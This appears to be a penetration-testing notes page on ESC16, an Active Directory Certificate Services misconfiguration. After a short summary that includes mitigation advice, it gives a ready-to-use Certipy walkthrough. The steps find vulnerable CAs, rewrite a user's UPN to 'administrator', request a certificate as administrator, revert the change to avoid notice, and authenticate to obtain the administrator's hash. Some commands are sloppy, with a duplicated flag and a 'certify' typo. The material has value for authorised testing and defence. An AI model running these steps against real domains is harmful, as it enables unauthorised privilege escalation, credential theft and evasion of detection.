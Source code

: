 # ESC16

_"The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own `userPrincipalName` and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured."_

{% embed url="https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6" %}

#### Methodology

* Run Certipy (version 5.X.X) and check the output
* If the Certificate is vulnerable to ESC16, exploit it
* Leverage ESC16 to escalate privilege



## ESC16 detection&#x20;

Using `certify v5.0.2` from kali linux machine to detect if the certicate is vulnerables.

<pre class="language-bash" data-title="With Pass" data-overflow="wrap"><code class="lang-bash"><strong>certipy find -u 'user@domain.com' -p 'PASS' -dc-ip IP -vulnerable -enabled
</strong></code></pre>

{% code title="With Hash" overflow="wrap" %}
```bash
certipy find -u 'user@domain.com' -hashes 'HASH' -dc-ip IP -vulnerable -enabled
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Exploitation of ESC16 Vulnerability Using Certipy**

1. **Update UserPrincipalName** (UPN) of a user to impersonate another user (like `administrator`).

{% code overflow="wrap" %}
```bash
certipy account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'administrator' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This allows the user to request certificates for the `administrator` identity.

2. **Verify** the Attribute Update

```bash
certipy account -u 'USER' -p 'PASS' -dc-ip IP -u 'MOD_USER' read
```

<figure><img src="../../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now the UPN is set to `administrator` .

3. **Request Certificate** as `administrator`&#x20;

{% code overflow="wrap" %}
```bash
certipy req -dc-ip IP -u 'administrator' -p 'USER_PASS' -target 'DC.domain.com' -ca 'CA_NAME' -template 'User'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

4. **Revert the UPN change** to prevent suspiciuos or disruption.

{% code overflow="wrap" %}
```bash
certify account -u 'USER' -p 'PASS' -target 'DC.domain.com' -dc-ip IP -upn 'USER_TO_MOD' -user 'USER_TO_MOD' update
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Get access with administrator certificate

Once we obtained the `administrator.pfx` certificate, we can use it to get his hash.

```bash
certipy auth -pfx administrator.pfx -domain 'domain.com' -dc-ip IP 
```

<figure><img src="../../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

